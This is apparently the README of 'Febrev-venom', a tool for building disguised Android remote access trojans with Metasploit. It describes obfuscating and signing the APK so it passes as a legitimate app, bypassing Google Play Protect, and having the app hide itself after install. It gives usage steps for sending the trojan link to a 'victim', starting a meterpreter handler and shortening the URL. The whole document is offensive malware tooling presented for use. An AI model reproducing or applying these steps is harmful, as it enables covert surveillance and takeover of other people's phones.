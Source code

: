 # NEW VERSION 3.0
# Febrev-venom updated to version 3.0
# Added a new functionality found by me i.e, it will disappear itself after installation 

FEBREV venom(also called febrev-droidspy) is a tool to create android RATs through metasploit,changes the icon,package name, Obfuscates the Apk , Makes it look like a legit app , signs the RAT apk ,  and send it to the victim via a link url over the INTERNET
IT CAN BYPASS GOOGLE PLAY PROTECT.............
ALSO THE APP CREATED BY MY TOOL CAN AUTOMATICALLY DISAPPEAR AFTER INSTALLING


### must run as root
### must run in debian-based linux distro like kali

## USAGE:
   
   come into the febrev-venom directory 
  
   chmod +x * 
   
   python3 installer.py
   
   now you can run febrev venom anywhere from the terminal by typing the command >>  febrev
   
   
   (OR)
    come into the febrev-venom directory  
    then    
    
   python3 febrev-venom.py
   
   
 # use the generated link(the best) + /<your apk> and send it to your victim 
 then start your msfconsole 
 use exploit/multi/handler
 then set lhost and lport and start the meterpreter session
   
 # OR simply use the resource script generated automatically by the tool
   -> msfconsole -r <appname_listener.rc>
 # You can shorten the URL by :
    1.open another terminal without closing the current one
    2.copy the URL from the current terminal and type -> php shorturl.php <the copied url>
 
 
 # happy hacking.....!!!!!
 
 ## ----------------------------------------------------------------------------------------
   
